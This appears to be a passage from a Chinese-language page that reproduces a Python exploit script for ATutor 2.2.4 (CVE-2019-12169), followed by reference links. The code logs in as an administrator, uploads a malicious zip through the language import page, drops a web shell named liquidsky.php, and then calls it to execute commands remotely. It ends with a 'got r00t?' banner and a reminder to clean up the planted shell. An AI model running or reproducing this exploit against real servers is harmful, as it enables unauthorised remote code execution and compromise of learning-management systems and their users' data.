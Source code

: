     #Logging in
         r = s.post(targeturl, data=d)
         print "[+] Logging in to system as %s ..." % (username)
         res = r.text

    # url settings, duh
         url = "http://" + target + "/ATutor/mods/_core/languages/language_import.php"

    # A similar method works for the "patcher" function.
        # url = "http://" + target + "/ATutor/mods/_standard/patcher/index_admin.php"

    # This is "the" request to send the zip     
         request = s.post(url, headers=headers, data=data, verify=False)
         print "[+] Sent the zip ......"
         time.sleep(1)

    # Grab shell dude!
         print "[!] *** Remote Code Execution ***"
         request = s.post(shell, verify=False)
         print "[x] http://" + target + "/liquidsky.php?language=" + commands

    # Note be sure to clean up: c:\xampp\htdocs\liquidsky.php and or /var/www/html/liquidsky.php

         if "Administration" in res:
             return True
         return False 
     
    def main():
         if we_can_get_jiggy_with_the_pass():
             print ""
             print "[+] Success! we were able to login!"
             print ""
             print "  ^_~  got r00t?   - [liquidsky 2019]"
         else:         print "[-] failure!" 
     
    if __name__ == "__main__":
         main()

参考链接
--------

> https://kumamon.fun/ATutor-CVE-2019-12169/
>
> https://github.com/fuzzlove/ATutor-2.2.4-Language-Exploit
